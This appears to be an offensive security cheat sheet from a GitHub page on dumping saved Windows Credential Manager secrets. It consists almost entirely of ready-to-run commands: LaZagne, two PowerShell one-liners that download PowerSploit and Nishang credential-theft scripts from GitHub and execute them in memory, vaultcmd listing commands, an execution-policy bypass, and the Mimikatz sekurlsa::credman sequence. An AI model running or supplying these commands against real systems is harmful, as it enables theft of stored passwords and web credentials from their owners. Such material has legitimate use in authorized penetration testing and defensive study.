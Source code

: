 # Credentials Manager

### 1) LaZagne

    LaZagne.exe windows

### 2) Get-VaultCredential (PowerSploit)

    iex (New-Object Net.Webclient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Get-VaultCredential.ps1"); Get-VaultCredential

### 3) Get-WebCredentials (Nishang)

    powershell iex (New-Object Net.Webclient).DownloadString("https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Get-WebCredentials.ps1"); Get-WebCredentials

### 4) GUI

     Control Panel -> User accounts -> Credential Manager

### 5) Cmd

#### 1) 

    vaultcmd /list

#### 2) 

    vaultcmd /listproperties:"Web Credentials" or "Windows Credentials"

#### 3) 

    vaultcmd /listcreds:"Web Credentials or "Windows Credentials"

#### 4) 

    Powershell.exe -ex bypass

#### 5) 

    Import-Module c:\tools\Get-WebCredentials.ps1

#### 6) 

    Get-WebCredentials.ps1

### 6) Mimikatz

#### 1) 

    mimikatz

#### 2) 

    privilege::debug

#### 3) 

    sekurlsa::credman
